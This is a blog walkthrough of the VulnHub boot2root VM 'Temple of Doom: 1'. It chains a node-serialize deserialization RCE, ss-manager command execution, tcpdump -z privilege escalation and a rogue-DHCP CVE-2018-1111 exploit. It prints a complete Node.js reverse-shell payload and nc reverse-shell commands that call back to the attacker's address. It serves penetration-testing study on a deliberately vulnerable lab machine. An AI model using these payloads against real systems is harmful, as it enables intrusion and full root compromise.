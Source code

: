```yaml
---
layout: post
date: 2018-08-26 18:15:47 +0000
last_modified_at: 2018-09-03 09:05:50 +0000
title: "Temple of Doom: 1 Walkthrough"
subtitle: "I'm No Indiana Jones"
category: Walkthrough
tags: [VulnHub, "Temple of Doom"]
comments: true
image:
  feature: temple-of-doom-1-walkthrough.jpg
  credit: PublicDomainPictures / Pixabay
  creditlink: https://pixabay.com/en/skull-bone-head-halloween-skeleton-18235/
---
```


This post documents the complete walkthrough of Temple of Doom: 1, a boot2root [VM][1] created by [@0katz][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You know it's a high quality VM when it's from [@Pink_P4nther](https://twitter.com/@pink_p4nther)'s homie, [@katz](https://twitter.com/@0katz).

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

`nmap` finds `22/tcp` and `666/tcp` open.

### Node.js Deserialization Bug

Let's pay `666/tcp` a visit and see what we can find there.

![50ad81b1.png](/assets/images/posts/temple-of-doom-1-walkthrough/50ad81b1.png)

Satan's temple is still under construction? Thank God :pray: I'm not going to hell any time soon.

Look what happens when I refresh the page.

![9f6cc22b.png](/assets/images/posts/temple-of-doom-1-walkthrough/9f6cc22b.png)

Look at the cookies storage.

![332df422.png](/assets/images/posts/temple-of-doom-1-walkthrough/332df422.png)

This is the `node-serialize` bug documented in [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941).

In any case, there's an easy way to exploit this vulnerability following the instructions [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

There's a slight difference though—I'm using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var reverse_shell = {
rce:function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "192.168.30.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); },
};

var serialize = require('node-serialize');
console.log(serialize.serialize(test));
```

Run `node rce.js` to get the serialized string output.

![87473663.png](/assets/images/posts/temple-of-doom-1-walkthrough/87473663.png)

Next, add the [IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) bracket `()` at the end of the serialized string output from the previous step before passing it to `base64` for encoding.

![398e3f8d.png](/assets/images/posts/temple-of-doom-1-walkthrough/398e3f8d.png)

Send the entire `base64` string as the `profile` cookie value to `http://192.168.30.129:666`. But before you do that, you want to set up your `nc` listener.

![0cfb9b07.png](/assets/images/posts/temple-of-doom-1-walkthrough/0cfb9b07.png)

As expected, the `nc` listener caught the reverse shell.

![fe9a4b46.png](/assets/images/posts/temple-of-doom-1-walkthrough/fe9a4b46.png)

You can see that `nodeadmin` is a regular user with its home directory at `/home/nodeadmin`; we can copy the SSH public key we control to `/home/nodeadmin/.ssh/authorized_keys` and log in through SSH. We get a more superior shell this way and `Ctrl-C` doesn't kill the shell. :smirk:

![9ca6cba5.png](/assets/images/posts/temple-of-doom-1-walkthrough/9ca6cba5.png)

Here's how to do that. First, generate the SSH keypair for `nodeadmin`.

![75c59205.png](/assets/images/posts/temple-of-doom-1-walkthrough/75c59205.png)

Next, create `/home/nodeadmin/.ssh` and echo the SSH public key to `authorized_keys`.

![8932e285.png](/assets/images/posts/temple-of-doom-1-walkthrough/8932e285.png)

Now, SSH into `nodeadmin`'s account.

### Command Execution in `shadowsocks-libev`

During enumeration of `nodeadmin`'s account, I notice `/usr/local/bin/ss-manager` is running as `fireman`.

![a2034971.png](/assets/images/posts/temple-of-doom-1-walkthrough/a2034971.png)

A quick search for "ss-manager" in Google led me to EDB-ID [43006](https://www.exploit-db.com/exploits/43006/). Listing the listening ports further confirmed the command execution "feature".

![5a264f18.png](/assets/images/posts/temple-of-doom-1-walkthrough/5a264f18.png)

A more liberal `nc` is also available for use in the VM.

![96d18f6d.png](/assets/images/posts/temple-of-doom-1-walkthrough/96d18f6d.png)

Armed with this knowledge, we can execute `nc` to give us a reverse shell as `fireman`.

![1119288b.png](/assets/images/posts/temple-of-doom-1-walkthrough/1119288b.png)

On our `nc` listener, a reverse shell returns as `fireman`.

![118e46df.png](/assets/images/posts/temple-of-doom-1-walkthrough/118e46df.png)

We can repeat the same SSH trick for `fireman`.

### Dangerous `tcpdump`

During enumeration of `fireman`'s account, I found the following.

![5c72e0cc.png](/assets/images/posts/temple-of-doom-1-walkthrough/5c72e0cc.png)

`tcpdump` in particular, can execute commands and run in another user's privilege with the `-z` and `-Z` options respectively.

Let's save `nc 192.168.30.128 1234 -e /bin/bash` into `/tmp/rev.sh` and make it executable.

![2202213b.png](/assets/images/posts/temple-of-doom-1-walkthrough/2202213b.png)

And execute `tcpdump` like so.

![c1ef1436.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1ef1436.png)

On the `nc` listener, a `root` shell returns.

![702d370f.png](/assets/images/posts/temple-of-doom-1-walkthrough/702d370f.png)

After repeating the SSH trick, getting the flag is trivial.

![9dfe8eb7.png](/assets/images/posts/temple-of-doom-1-walkthrough/9dfe8eb7.png)

:dancer:

### Afterthought

I wonder what's the second method for getting `root`? Could it be the exploitation of `abrt`?

I think I got it figured out. [CVE-2018-1111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1111) anyone?

The signs were there all this time.

![c1a0b34c.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1a0b34c.png)

There's a reason why `fireman` can `sudo` to execute `nmcli` and `iptables`. Even the source of the vulnerability is present.

![53cf80ea.png](/assets/images/posts/temple-of-doom-1-walkthrough/53cf80ea.png)

The proof-of-concept (PoC) code is so small it can fit inside a [tweet](https://twitter.com/Barknkilic/status/996470756283486209), with the help of `dnsmasq` of course.

Let's give it a shot!

In one terminal, I set up my attacking machine (192.168.30.128) as the rogue DHCP server with `dnsmasq`. In another terminal, I set up the `nc` listener to catch the reverse shell.

![6b69b4b4.png](/assets/images/posts/temple-of-doom-1-walkthrough/6b69b4b4.png)

Now, let's renew the VM's IP address with `nmcli`. My rogue DHCP server will respond to the VM's DHCP request with the injected command (`nc` to send `/bin/bash` over to me, i.e. a reverse shell) in the DHCP offer.

![42188e5c.png](/assets/images/posts/temple-of-doom-1-walkthrough/42188e5c.png)

A `root` shell returns.

![2de2fbdf.png](/assets/images/posts/temple-of-doom-1-walkthrough/2de2fbdf.png)

Below are the DHCP packets and the rogue DHCP offer captured in WireShark.

![7daab6b2.png](/assets/images/posts/temple-of-doom-1-walkthrough/7daab6b2.png)

![cb889f9c.png](/assets/images/posts/temple-of-doom-1-walkthrough/cb889f9c.png)


[1]: https://www.vulnhub.com/entry/temple-of-doom-1,243/
[2]: https://twitter.com/@0katz
[3]: https://www.vulnhub.com/

